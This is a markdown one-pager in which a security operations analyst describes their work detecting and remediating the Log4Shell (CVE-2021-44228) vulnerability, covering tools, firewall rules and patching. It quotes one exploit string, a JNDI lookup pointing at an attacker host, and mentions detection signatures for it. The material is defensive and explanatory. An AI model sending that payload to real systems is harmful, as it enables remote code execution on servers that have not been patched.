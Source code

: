 # Markdown content for the Log4j Incident Response One-Pager

# Log4j Incident Response – One-Pager  
**Role:** Security Operations Analyst  
**Duration:** Dec 2021 – Jan 2022  
**Tools Used:** Qualys, Palo Alto Panorama, SolarWinds, Slack/Bridge Calls  

---

## 📌 What is Log4j?  
Apache Log4j is a Java-based logging utility used in countless enterprise applications. In December 2021, a critical vulnerability—**CVE-2021-44228 (Log4Shell)**—was discovered that allowed **unauthenticated remote code execution (RCE)** via **JNDI lookups** in log messages.

- **CVSS Score:** 10.0 (Critical)  
- **Affected Versions:** ≤ 2.14.1  
- **Fixed in:** 2.15.0 and later  
- **Exploit Example:** `${jndi:ldap://attacker.com/payload}`  

---

## 🕵️‍♂️ Why It Was Dangerous  
- Widespread usage across Java apps (e.g., Minecraft, VMware, Apple iCloud, AWS)  
- Enabled full remote code execution with minimal effort  
- Led to deep supply chain compromise and APT activation  
- Embedded in shadow dependencies (JARs inside JARs)

---

## 🛡️ My Role During the Incident  
I worked on the **Security Operations Team** at TCS supporting AMD’s infrastructure during the crisis. This involved **real-time detection, monitoring, and remediation** in collaboration with L2/L3 teams and external partners.

---

## 🎯 Key Responsibilities & Contributions

### 🔍 Vulnerability Detection
- Managed **Qualys Cloud Agent** to ensure accurate detection (QIDs: 376157, 376178, 91495)  
- Scanned for vulnerable Log4j instances across Linux/Windows systems  
- Flagged high-risk servers for immediate patching and isolation  

### 🌐 Firewall & Perimeter Defense
- Monitored **Palo Alto Panorama** for outbound LDAP/RMI/DNS exploit traffic  
- Applied dynamic firewall rules to **block JNDI lookup patterns**  
- Detected suspicious communication with external command servers  

### 📊 Incident Coordination & Reporting
- Participated in **24x7 bridge calls and war-room sessions**  
- Documented exposure impact, patch status, and escalation workflows  
- Used **SolarWinds** for system discovery, patch prioritization, and health checks  

---

## 🧰 Remediation Actions by L2/L3
- Upgraded Log4j to version **2.16+ / 2.17+**  
- Disabled JNDI lookups: `log4j2.formatMsgNoLookups=true`  
- Applied **WAF rules** and SIEM detection signatures for `${jndi:` patterns  
- Implemented **compensating controls** and monitored patch completion  

---

## 📘 Outcome & Learning
Supported large-scale incident response for a global zero-day exploit involving multiple threat vectors, including suspected **APT activity**. Gained hands-on experience with **real-time detection, cross-functional security collaboration**, and **tool-based mitigation** under pressure.
"""
